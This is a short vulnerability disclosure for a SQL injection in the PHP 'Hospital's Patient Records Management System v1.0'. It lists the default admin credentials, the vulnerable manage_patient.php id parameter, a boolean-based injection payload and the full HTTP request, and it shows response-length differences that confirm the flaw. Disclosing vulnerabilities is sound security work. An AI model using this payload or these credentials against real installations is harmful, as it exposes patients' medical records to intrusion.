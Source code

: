 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/admin/patients/manage_patient.php?id=

Vulnerability location: /hprms/admin/patients/manage_patient.php?id=, id

Current database name: hprms_db ,length is 8

[+] Payload: /hprms/admin/patients/manage_patient.php?id=1%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /hprms/admin/patients/manage_patient.php?id=1%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 7, Content-Length: 4802
![image](https://user-images.githubusercontent.com/54017627/171406322-4631a0bd-db26-455b-b90a-70afad3a0e43.png)

![image](https://user-images.githubusercontent.com/54017627/171406144-aea87509-506a-4ee9-b829-2947fdf94f5f.png)

When length (database ()) = 8, Content-Length: 4906
![image](https://user-images.githubusercontent.com/54017627/171406262-746d89e7-e924-4cb0-9f02-73e57a13b31e.png)

![image](https://user-images.githubusercontent.com/54017627/171406100-27a76b3e-3dfc-418e-be42-991aabb072c0.png)
